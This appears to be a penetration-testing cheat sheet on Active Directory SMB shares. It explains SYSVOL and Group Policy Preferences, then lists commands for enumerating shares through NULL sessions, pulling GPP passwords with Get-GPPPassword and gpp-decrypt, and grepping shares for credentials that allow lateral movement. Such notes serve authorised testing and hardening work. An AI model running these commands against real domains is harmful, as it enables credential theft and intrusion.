# Active Directory - Shares

### Overview

In a Windows environment, the Server Message Block (SMB) protocol is used to
share folders and files between computers.  
The SYSVOL folder, accessible on all Domain Controller to all authenticated
users, should be carefully reviewed for sensible information (notably the GPP
data).
Some content may be accessible to unauthenticated users (NULL session or
GUEST) and can be a way to gain authenticated access to the Domain.

###### SMB

The Server Message Block (SMB) protocol, one version of which was also known as
Common Internet File System (CIFS), is an application-layer network protocol
used for providing shared access to files, printers, and serial ports and
miscellaneous communications between nodes on a network. It also provides an
authenticated inter-process communication mechanism. Most usage of SMB involves
computers running Microsoft Windows.

###### Group Policy

Group Policy is a feature of the Microsoft Windows NT family of operating
systems that controls the working environment of user accounts and computer
accounts. Group Policy provides centralized management and configuration of
operating systems, applications, and users' settings in an Active Directory
environment. A version of Group Policy called Local Group Policy ("LGPO" or
"LocalGPO") also allows Group Policy Object management on standalone and
non-domain computers.

Two kinds of Group Policy exist : Group Policy Object (GPO) and Group Policy
Preferences (GPP).  
One of the most useful features of Group Policy Preferences
(GPP) is the ability to store and use credentials in several scenarios (local
user creation, map drives, etc.). When a new GPP is created, an associated XML
file is created in SYSVOL with the relevant configuration data and if a password
is provided, it is AES-256 bit encrypted. Microsoft published the AES private
key which can be used to decrypt the password. Since authenticated users
(any domain user or users in a trusted domain) have read access to SYSVOL,
anyone in the domain can search the SYSVOL share for XML files containing
“cpassword” which is the value that contains the AES encrypted password.
There are a few more differences between the two, for additional details refer
to the following article http://techgenix.com/policies-vs-preferences/.

###### SYSVOL

SYSVOL is the domain-wide share in Active Directory to which all authenticated
users have read access. SYSVOL contains logon scripts, group policy data, and
other domain-wide data which needs to be available anywhere there is a Domain
Controller (since SYSVOL is automatically synchronized and shared among all
Domain Controllers).

In addition to the GPP data potentially containing password, more sensible
information can be stored in the SYSVOL folder and its content should be
reviewed.

### Exploit

#### Find shares

To find exposed shares on the network, the following tools can be used:

```
# SYSVOL
\\<DOMAIN>\SYSVOL\

nmap --script smb-enum-shares.nse -p 445 <TARGETS>
```

#### Enumerate shared content

To list the shares accessible on a computer the following commands can be used:

```
# Linux
smbclient -L '' //'10.10.10.100'/Replication -U''%'' -c dir
python nullinux.py -shares <HOSTNAME/IP>
enum4linux.pl -v -S <HOSTNAME/IP>
```

To access shares from a Linux operating system, smbclient can be used:

```
# Windows
net use <DRIVELETTER>: \\<HOSTNAME/IP>\<SHARE> "" /user:"" # NULL session
net use <DRIVELETTER>: \\<HOSTNAME/IP>\<SHARE> /user:"<DOMAIN>\<USERNAME>"

# Linux
smbclient -W '' //'<HOSTNAME/IP>'/<SHARE> -U''%'' # NULL session
smbclient -W '' //'<HOSTNAME/IP>'/<SHARE> -U'<DOMAIN>\<USERNAME>'%'<PASSWORD>'
```

#### Search sensible information

###### Group Policy Preferences (GPP)

GPP may contain passwords and the data stored in the SYSVOL folder should be
reviewed.  

The Get-GPPPassword PowerSploit cmdlet searches a domain controller for
groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns
plaintext passwords:

```
Get-GPPPassword
Get-GPPPassword -Server <DC>
```

To manually search for passwords in GPP, the Agent Ransack file searching tool
can be used to grep for the 'cpassword' keyword.

To decrypt a GPP password, the gpp-password tool can be used:

```
gpp-decrypt <ENC_PASSWORD>
```

###### Credentials

Use the Agent Ransack file searching tool to grep for the 'PASS' regex and
manually review the result.
Active Directory account, local account and MSSQL sa account can be used to
gain an initial foothold on the Domain or to move horizontally/laterally.
